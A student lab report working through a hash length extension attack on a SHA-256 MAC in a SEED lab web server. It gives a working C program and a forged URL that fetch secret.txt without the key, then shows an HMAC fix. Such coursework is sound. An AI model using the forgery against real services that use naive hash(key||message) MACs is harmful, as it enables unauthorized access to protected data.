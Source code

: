 # Report 3: Hash Length Extension Attack Lab

In this lab we will explore how we can compromise a Mac by expanding an intercepted message without knowing the key.
To do this, we will first need to set up the lab environment. Firstly, we download the zip and build the **docker image**. Then we need to change the **/etc/hosts** file and add a new address to it, that being:

```sh
10.9.0.80 www.seedlab-hashlen.com
```

With this we are finally ready to start the lab.

## Task 1: Send Request to List Files

In order for the website to list all it's files we need to craft a request in the following way:

```sh
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```
Firstly the **lstcmd** needs the value of **1** to execute this type of request and the link above is also missing 3 arguments: **myname**, **uid** and **mac**
For this lab we will be using the name **Eduardo** and we will choose a uid from the **key.txt** in the LabHome directory. We see what is contained in the file in the image bellow:

![Output of key.txt](images/image1.PNG)

For this lab we chose the uid of **1005** which has a corresponding key of **xciujk**. And with those 3 values we can calculate the mac for the user **Eduardo** with the uid of **1005** by executing the command bellow:

```sh
$ echo -n "xciujk:myname=Eduardo&uid=1005&lstcmd=1" | sha256sum
```

This command results in the following:

![Hash created using the message "xciujk:myname=Eduardo&uid=1005&lstcmd=1"](images/image2.PNG)

As we can see the **mac** obtained is: **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**.
Now, equiped with the 3 arguments, we can craft the completed URL.

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f
```

When we seen it using the browser we obtain the following:

![The resulting web page when using the url](images/image3.PNG)

The image shoes that our **MAC** is valid and shows us the two files in the directory, those being **secret.txt** and **key.txt**!

## Task 2: Create Padding

Now that we know how the website works, it is time to try to attack it! To do that we must first understand how padding is calculated for a one-way hash.
The block size of **SHA 256**is 64 bytes, so a message will be padded in blocks of 64 bytes during the hash calculation. The padding consists of one byte of **\x80** followed by many 0s and finally an **8 byte** length field with the length of the hashed message.
So, our message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, consists of **39 bytes**. So the length of our padding will be **64-39= 25 bytes**. The length of our message will be **39*8=312 bits**. **312  bits** in hex is **\x01\x38**. So our padding will be:

```c
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x38"
``` 
With that done we can begin with the next task.

## Task 3: The Length Extension Attack

Finally, we can start the attack! For this we will need 2 things: a MAC for a valid request and the size of the MAC key. 
In **Task 1** we calculated the MAC for the message: **xciujk:myname=Eduardo&uid=1005&lstcmd=1**, that being **ee73e3a3dfc4f7dd24bfa90a766efc79d6d9f1df31e7c2bb7c1c73404c669d3f**. We also know the size of the key **xciujk** which is **6**!
With this we can add a **new message** to the end of the padding and create a valid MAC without knowing the key!
For that we will use a program called **length_ext.c** that can create a new valid **MAC** with our custom message added at the end!
The program is written bellow:

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0xee73e3a3);
    c.h[1] = htole32(0xdfc4f7dd);
    c.h[2] = htole32(0x24bfa90a);
    c.h[3] = htole32(0x766efc79);
    c.h[4] = htole32(0xd6d9f1df);
    c.h[5] = htole32(0x31e7c2bb);
    c.h[6] = htole32(0x7c1c7340);
    c.h[7] = htole32(0x4c669d3f);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
``` 
In the program above we write our valid **MAC** in **c** and we add our extra message, that being **&download=secret.txt** that should allow us to download the website's secret file!
We can compile the program using the following command:

```sh
$ gcc length_ext.c -o length_ext -lcrypto
```
Running the code results in the following image:

![Generation of our New MAC](images/image4.PNG)

So the new MAC is: **b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb**! With this we can finally craft our url and see if it works. The following is the URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%38&download=secret.txt&mac=b538ace34729fd01ec13ada2fb028860a6a01e88a8c972982a1a9cf6bb7527fb
```

When we input the following URL in the browser we get the following:

![Our URL was successful in attacking the website](images/image5.PNG)

It worked! The **secret.txt** was accessed, but how did it work? What we did was take a legitimate MAC and calculated its padding. We then add the padding to the hash and simply add our new data in hashed form to the end of it, this way we create a legitimate MAC with our data without knowing the key! This happened because **SHA 256** does not hide the length of the original message making it possible to find the padding and attach custom data to the end of the hash.

## Task 4: Attack Mitigation using HMAC

Now that we have done the attack, how can we protect the website from it?
The answer is in using **HMAC**. Firstly we will modify the server's program and use python's **hmac** to implement a more secure **verify_mac()**. We can implement the code by adding the following lines to **verify_mac()** in lab.py:

```py
real_mac = hmac.new(bytearray(key.encode(´'utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
``` 

This way we are creating a HMAC for the uid keys, just like in **Task 1** we will generate a MAC to list all the files on the website's directory. But we will have to use a dedicated program as to generate a HMAC is a bit more complex than just using **SHA 256**. The following is a dedicated program to generate an **HMAC** for our uid key of **xciujk**:

```py
import hmac
import hashlib
key='xciujk'
message='myname=Eduardo&uid=1005&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),
msg=message.encode('utf-8', 'surrogateescape'),
digestmod=hashlib.sha256).hexdigest()
print(mac)
``` 

The program returns the following:

![Generating our HMAC for our message](images/image6.PNG)

The HMAC generated is: **e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189**! We can now craft our URL just like in **Task 1**. The following is the new URL:

```sh
http://www.seedlab-hashlen.com/?myname=Eduardo&uid=1005&lstcmd=1&mac=e0af6ca214fc8480c46da109d337ebf672cc85e8a84e626a6ec5a18097981189
```

When we access the url this is what we find:

![The Website now works with HMAC](images/image7.PNG)

So we made the site use **HMAC**! But why is this implementation more secure?
**HMAC** utilizes a secret key to derive two different keys: the inner key and the outer key. These keys are derived using a specific algorithmic process, usually involving XOR operations with predefined constants.
HMAC applies the hashing process twice. Initially, it takes the message and the inner key, concatenates them, and then computes the hash of this concatenated value. Subsequently, it hashes the result of the first hash operation concatenated with the outer key.
This two-step process makes HMAC immune to length extension attacks. In such attacks, an adversary attempts to append data to the original message without knowing the secret key. However, since HMAC incorporates the secret key into both the key derivation and the hashing process, it's practically impossible for an attacker to generate a valid HMAC for a modified message without the secret key. SO the website is immune to hash length attacks while using  **HMAC**! 

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094
